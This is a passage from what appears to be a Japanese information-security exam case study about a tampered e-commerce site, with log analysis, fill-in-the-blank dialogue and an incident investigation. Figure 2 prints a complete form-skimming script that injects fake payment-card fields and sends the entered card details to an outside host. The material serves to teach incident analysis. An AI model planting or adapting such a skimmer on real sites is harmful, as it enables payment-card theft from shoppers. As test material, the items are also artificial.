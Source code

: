 | 9 | POST | `/payment` | 200 |
| 10 | PUT | `/ec-j/layout/js/customize.js` | 204 |

次は、アクセスログに関するRさんとGさんの会話である。
**Rさん:** 偽フォームの表示が可能な攻撃の痕跡はあったのか。
**Gさん:** 表2の <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">a</span> 行目が <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">b</span> 脆弱性を狙った攻撃だと思いますが、そういった攻撃であれば偽フォームの表示が可能です。さらに <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">b</span> 脆弱性が <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">c</span> 型であれば、1回の攻撃で多数の利用者に対して偽フォームの表示が可能です。
**Rさん:** それとは別に、表2の <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">d</span> 行目は <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">e</span> 脆弱性を狙った攻撃の痕跡だと思うが、仮にその脆弱性が存在した場合に、偽フォームの表示は可能なのか。
**Gさん:** WebアプリPが、DBサーバに格納している情報を基にWebページを動的に生成していれば可能かもしれません。
**Rさん:** 承知した。その他、表2の10行目のPUT メソッドでファイルが更新されている点も気になる。以前、セキュリティベンダーに依頼して報告を受けている Web アプリ Pの脆弱性診断レポートに、 <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">b</span> 脆弱性及び <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">e</span> 脆弱性の指摘があるかどうかと、PUTメソッドによる更新はV社によるものかどうか、V社に至急確認してほしい。

Gさんは、6月13日にV社に問い合わせた。また、最新バージョンのWebアプリPに対する脆弱性診断レポートを確認したところ、脆弱性の指摘はなかった。

### 〔偽フォーム表示の原因の調査と対策〕

6月14日にV社から連絡があり、PUTメソッドによるファイル更新はV社によるものではなかったことが判明した。Webサーバに設置していた ECMAScript ファイルの一つ customize.js が攻撃者のファイル(以下、ファイルKという)に置き換えられていた。customize.jsは、通常時は空のファイルであり、 Web サイトのデザインを一時的に変更する際に利用するものである。①<u>配送先・支払方法選択画面でファイル Kが読み込まれており、HTML の一部が書き換えられていた</u>。この書換えによって、②<u>配送先・支払方法選択画面から支払手続画面への画面遷移の処理で利用しているパラメータの値が変更され、支払方法がクレジットカード決済に固定されていた</u>。ファイルKを整形したものを図2に、配送先・支払方法選択画面のHTMLソースを図3に示す。

**図2 整形後のファイルK**

```javascript
1: if (location.pathname == '/shopping') {
2:   let elem = document.querySelector("#shopping-form > div > div > div.order_payment > div.radio");
3:   elem.innerHTML = '<p>カード番号<input type="text" id="get_number" /></p><p>有効期限<input type="text" id="get_exp_month" />月/<input type="text" id="get_exp_year" />年</p><p>名義<input type="text" id="get_name" /></p><p>セキュリティコード<input type="text" id="get_code" /></p><input type="hidden" name="order[Payment]" value="1" />';
4:   let form = document.getElementById('shopping-form');
5:   form.addEventListener('submit', function() {
6:     const req = new XMLHttpRequest();
7:     let number = document.getElementById('get_number').value;
8:     let exp_month = document.getElementById('get_exp_month').value;
9:     let exp_year = document.getElementById('get_exp_year').value;
10:    let name = document.getElementById('get_name').value;
11:    let code = document.getElementById('get_code').value;
12:    let url = 'https://i-sha.com/?num=' + number + '&exp=' + exp_month + '%2F' + exp_year + '&name=' + name + '&code=' + code;
13:    req.open("GET", url);
14:    req.send();
15:  });
16: }
```
